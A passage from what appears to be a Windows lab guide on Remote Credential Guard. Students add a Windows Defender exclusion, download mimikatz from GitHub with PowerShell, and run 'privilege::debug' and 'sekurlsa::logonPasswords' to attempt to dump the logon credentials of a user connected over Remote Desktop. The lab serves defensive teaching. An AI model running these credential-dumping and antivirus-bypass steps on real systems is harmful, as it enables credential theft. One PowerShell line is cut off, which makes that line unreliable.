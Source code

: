   -   Username: **ADATUM\\Student1**
  -   Password: **Pa55w.rd**

#### Task 4: Establish a Remote Desktop session with Remote Credential Guard enabled.

1.   On LON-CL1, while signed on as **ADATUM\\Administrator**, start a **Remote Desktop Connection** to **LON-SVR1.adatum.com**.
2.   Wait until the Remote Desktop connection is established.

  > **Note:**  In scenarios where you have not enforced the Remote Credential Guard on a remote server via Group Policy, you can add the /remoteGuard switch when running mstsc.exe to specify that you want to apply the Remote Credential Guard protection. 

#### Task 5: Examine Remote Credential Guard protection 

  > **Note:**  In this task, you will use mimikatz in order to attempt retrieval of credentials of a user accessing the local server via Remote Desktop. Without the Remote Credential Guard protection, this attempt would be successful. Note that running mimikatz in this manner requires local Administrator privileges.

  > **Note:**  In order to complete subsequent steps, you will need to create a Windows Defender folder exclusion. Without it, the downloaded file will be automatically deleted since it is detected as malware. In general, you obviously should avoid downloading such files or creating exclusions to facilitate their download.

1.   Switch to the console connection to LON-SVR1 (as **ADATUM\\Student1**).
2.   Use **Windows Defender** interface in the **Settings** app, to add an exclusion for the **C:\Exclusions** folder. 
3.   From the **Administrator: Windows PowerShell** window, run the following:

```
New-Item -ItemType Directory -Path 'C:\Exclusions' -Force
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType
Invoke-WebRequest –Uri https://github.com/gentilkiwi/mimikatz/releases/download/2.1.1-20180616/mimikatz_trunk.zip -Outfile C:\Exclusions\mimikatz_trunk.zip
```

  > **Note:**  This will download the release 2.1.1-20180616 of mimikatz (mimikatz_trunk.zip) into the C:\\Exclusions folder from https://github.com/gentilkiwi/mimikatz/releases

4.   From the **Administrator: Windows PowerShell** window, run the following:

```
Expand-Archive –Path C:\Exclusions\mimikatz_trunk.zip -DestinationPath C:\Exclusions -Force
```

  > **Note:**  This will extract the content of the downloaded archive the C:\\Exclusions folder.

5.   Start **Command Prompt** as Administrator.
6.   In the **Administrator: Command Prompt** window, change the current directory to **C:\\Exclusions\\x64**.
7.   From the Command Prompt, run the following:

```
mimikatz
privilege::debug
sekurlsa::logonPasswords
exit
```
